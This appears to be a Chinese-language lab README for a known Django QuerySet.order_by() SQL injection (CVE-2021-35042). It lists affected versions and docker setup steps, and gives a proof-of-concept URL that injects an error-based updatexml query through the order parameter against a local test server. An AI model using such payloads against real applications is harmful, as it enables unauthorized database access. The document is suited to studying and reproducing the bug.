


# CVE-2021-35042 Django QuerySet.order_by() SQL注入漏洞

## 漏洞概述
Django 3.1.x before 3.1.13 and 3.2.x before 3.2.5 allows QuerySet.order_by SQL injection if order_by is untrusted input from a client of a web application.

## 影响范围
Django 3.1.x before 3.1.13
Django 3.2.x before 3.2.5

## 环境搭建
```
docker-compose build
docker-compose up -d
```



## 漏洞利用

### POC
`http://127.0.0.1:8000/vuln/?order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23`


### Exp

`./exp.sh http://127.0.0.1:8000/vuln/`


